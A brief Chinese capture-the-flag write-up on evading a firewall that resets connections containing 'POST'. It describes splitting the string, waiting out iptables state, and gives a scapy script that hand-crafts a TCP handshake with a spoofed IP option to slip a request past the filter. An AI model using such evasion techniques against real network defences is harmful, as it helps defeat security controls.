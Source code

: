 第一问 识别字符串 `POST` 返回 rst

只需要发P 再发 OST即可

第二问同理 不过需要等待时间让iptables抛弃数据

第三问需要以下两个脚本

main.py

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP, IPOption

import ipoption


def tcp_test(ip, port, data):
    # 第一次握手，发送SYN包
    # 请求端口和初始序列号随机生成
    p1 = IP(dst=ip,
            options=[IPOption(ipoption.streamid(b'\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50'))],
            ) / TCP(dport=port, sport=RandShort(), seq=RandInt(), flags='S')
    p1.show()
    print(bytes(p1))
    ans = sr1(p1, verbose=True)
    print(ans)

    # 假定此刻对方已经发来了第二次握手包：ACK+SYN

    # 对方回复的目标端口，就是我方使用的请求端口（上面随机生成的那个）
    sport = ans[TCP].dport
    s_seq = ans[TCP].ack
    d_seq = ans[TCP].seq + 1

    # 第三次握手，发送ACK确认包，顺带把数据一起带上
    print(sr1(IP(dst=ip,
                 options=[IPOption(ipoption.streamid(b'\x00\x00\x47\x45\x54\x20\x2f\x20\x48\x54\x54\x50'))],
                 ) / TCP(dport=port, sport=sport, ack=d_seq, seq=s_seq, flags='A') / data, verbose=False))

if __name__ == '__main__':
    data = 'POST / HTTP/1.1\r\n'
    data += 'Host: 202.38.93.111\r\n'
    data += 'User-Agent: GET / HTTP Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36\r\n'
    data += 'Content-Length: 115\r\n'
    data += 'Accept: text/html\r\n\r\n'
    data += 'youtoken\r\n'

    tcp_test("202.38.93.111", 18082, data)

```
